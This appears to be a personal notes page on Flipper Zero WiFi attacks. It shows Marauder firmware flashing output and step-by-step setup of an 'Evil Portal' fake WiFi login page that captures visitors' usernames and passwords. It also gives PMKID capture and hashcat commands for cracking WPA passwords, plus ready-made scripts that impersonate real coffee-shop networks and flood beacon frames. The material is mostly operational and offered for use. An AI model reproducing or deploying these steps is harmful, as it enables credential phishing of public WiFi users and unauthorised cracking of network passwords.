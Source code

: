 ## Wifi dev board
- Flash Marauder into the Wifi Dev Board
    - Easiest: https://github.com/SkeletonMan03/FZEasyMarauderFlash
    - Oudated: https://github.com/UberGuidoZ/Flipper/tree/main/Wifi_DevBoard/FZ_Marauder_Flasher
- References:
    - ESP32Marauder: https://github.com/justcallmekoko/ESP32Marauder/wiki

```
//==================================================================\\
|| Options:						            ||
||  1) Flash Marauder on WiFi Devboard or ESP32-S2	            ||
||  2) Save Flipper Blackmagic WiFi settings		            ||
||  3) Flash Flipper Blackmagic				            ||
||  4) Flash Marauder on ESP32-WROOM			            ||
||  5) Flash Marauder on ESP32 Marauder Mini		            ||
||  6) Flash v6 Marauder on ESP32-WROOM (RabbitLabs Minion Marauder)||
||  7) Flash Marauder on ESP32-S3			            ||
||  8) Flash Marauder on AWOK v1-3 or Duoboard                      ||
||  9) Flash Marauder on AWOK v4 Chungus Board                      ||
|| 10) Flash Marauder on AWOK v5 ESP32                              ||
|| 11) Flash Marauder on AWOK Dual ESP32 (Orange Port)              ||
|| 12) Flash Marauder on AWOK Dual ESP32 Touch Screen (White Port)  ||
|| 13) Flash Marauder on AWOK Dual ESP32 Mini (White Port)          ||
|| 14) Flash Evil Portal on ESP32-WROOM				    ||
|| 15) Flash Evil Portal on ESP32-S2 or WiFi Devboard		    ||
|| 16) Just Erase ESP32 - Try this if you think you bricked it	    ||
|| 17) Update all files					            ||
|| 18) Exit						            ||
\\==================================================================//

Please enter the number of your choice: 1
You have chosen to flash Marauder on a WiFi devboard or ESP32-S2
Checking for serial port...
You are most likely using a Flipper Zero WiFi Devboard or an ESP32-S2
Erasing firmware...
esptool.py v4.8.1
Serial port /dev/cu.usbmodem01
Connecting...
Detecting chip type... Unsupported detection protocol, switching and trying again...
Detecting chip type... ESP32-S2
Chip is ESP32-S2 (revision v0.0)
Features: WiFi, No Embedded Flash, No Embedded PSRAM, ADC and temperature sensor calibration in BLK2 of efuse V2
Crystal is 40MHz
MAC: a0:76:4e:9e:7f:d2
Uploading stub...
Running stub...
Stub running...
Erasing flash (this may take a while)...
Chip erase completed successfully in 14.5s
Staying in bootloader.
Successfully erased!
Waiting 5 seconds...
Flashing Marauder on ESP32-S2
esptool.py v4.8.1
Serial port /dev/cu.usbmodem01
Connecting...
Chip is ESP32-S2 (revision v0.0)
Features: WiFi, No Embedded Flash, No Embedded PSRAM, ADC and temperature sensor calibration in BLK2 of efuse V2
Crystal is 40MHz
MAC: a0:76:4e:9e:7f:d2
Uploading stub...
Running stub...
Stub running...
Configuring flash size...
Flash will be erased from 0x00001000 to 0x00004fff...
Flash will be erased from 0x00008000 to 0x00008fff...
Flash will be erased from 0x00010000 to 0x000fdfff...
SHA digest in image updated
Compressed 13648 bytes to 9382...
Wrote 13648 bytes (9382 compressed) at 0x00001000 in 0.2 seconds (effective 677.2 kbit/s)...
Hash of data verified.
Compressed 3072 bytes to 129...
Wrote 3072 bytes (129 compressed) at 0x00008000 in 0.0 seconds (effective 625.5 kbit/s)...
Hash of data verified.
Compressed 972624 bytes to 609591...
Wrote 972624 bytes (609591 compressed) at 0x00010000 in 6.6 seconds (effective 1187.3 kbit/s)...
Hash of data verified.

Leaving...
Staying in bootloader.
ESP32-S2 has been flashed with Marauder
```

- Wifi Evil Portal: https://github.com/bigbrodude6119/flipper-zero-evil-portal/tree/main/flipper/apps_data/evil_portal
    - Copy `index.html` into `SD Card/apps_data/marauder/html`
    - Go to Apps -> GPIO ->[ESP32] Wifi Marauder-> SSID -> Select "add name" (to add an SSID for example "Free Wifi") and save
    - Next go to List -> Select "ssid" and find number associated with the ssid you created ->Go to Select and change to "ssid" and enter the number associated with the ssid this number should be "0" at this point and save.
    - Now go to "Load Evil Portal HTML file" and choose `index.html`
    - Go to Evil Portal and start. At this point the IP address of your portal should be displayed. Connect a device to the free google wifi and enter Username and Password and it should display on your Flipper.

- Flipper Zero Demo: WiFi Marauder, Wireshark and Hashcat: https://www.youtube.com/watch?v=F5iiwounbzY
    - Flipper scan AP > List > Select AP > Sniff pmkid -> Download pcap file -> convert to hashcat format -> crack
    ```
    # https://hashcat.net/cap2hashcat/ or hcxpcapngtool
    hcxpcapngtool -o out.hc22000 -E essidlist sniffpmkid.pcap
    wget https://wpa-sec.stanev.org/dict/cracked.txt.gz
    hashcat -m 22000 -d 5 out.hc22000 cracked.txt.gz

    hashcat -m 22000 -a 3 out.hc22000 "?d?d?d?d?d?d?d?d"
    ```
- Wordlists:
    - https://github.com/richiemann/vietnam-password-lists
    - https://github.com/danielmiessler/SecLists/tree/master/Passwords/WiFi-WPA
---

### Scripts
- EvilPortal.json
```
{
	"meta":	{
		"description":	"EvilPortal",
		"enableLed":	true,
		"repeat":	1.0000000000000000
	},
	"stages":	[{
			"exec":	{
				"command":	"clearlist -s"
			}
		}, {
			"exec":	{
				"command":	"ssid -a -n 'HighLand Coffee'"
			}
		}, {
			"exec":	{
				"command":	"evilportal -c start"
			}
		}]
}
```
- SpamSSIDList.json

```
{
	"meta": {
		"description": "SpamSSIDList",
		"enableLed": true,
		"repeat": 1.0000000000000000
	},
	"stages": [
		{
			"exec": {
				"command": "clearlist -s"
			}
		},
		{
			"exec": {
				"command": "ssid -a -n 5G_Free"
			}
		},
		{
			"exec": {
				"command": "ssid -a -n Free"
			}
		},
		{
			"exec": {
				"command": "ssid -a -n 'HighLand Coffee'"
			}
		},
		{
			"exec": {
				"command": "ssid -a -n 'Trung Nguyen Coffee'"
			}
		},
		{
			"exec": {
				"command": "ssid -a -n 'Starbucks Coffee'"
			}
		},
		{
			"exec": {
				"command": "ssid -a -n 'Phuc Long Coffee'"
			}
		},
		{
			"exec": {
				"command": "list -s"
			}
		},
		{
			"exec": {
				"command": "attack -t beacon -l"
			}
		}
	]
}

```
